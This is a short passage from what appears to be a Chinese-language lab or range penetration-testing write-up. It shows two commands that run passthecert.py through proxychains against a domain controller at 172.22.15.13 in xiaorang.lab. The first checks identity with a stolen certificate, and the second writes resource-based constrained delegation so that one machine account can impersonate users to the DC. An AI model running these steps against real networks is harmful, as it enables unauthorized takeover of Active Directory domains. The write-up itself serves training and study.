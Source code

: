 [![](assets/1707954847-24efd29435515f17d70f1b3f9cbcd827.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165541-00f46d4e-c729-1.png)

```plain
proxychains python3 passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
```

[![](assets/1707954847-b44b22c881d99cad9989b943709a73a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165546-03e29120-c729-1.png)

接下来将证书配置到域控的`RBCD`

```plain
proxychains python3 passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'TEST2$'
```

[![](assets/1707954847-9ab0004e5f14c7fb55bf37b2b280c943.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165554-08780c6a-c729-1.png)
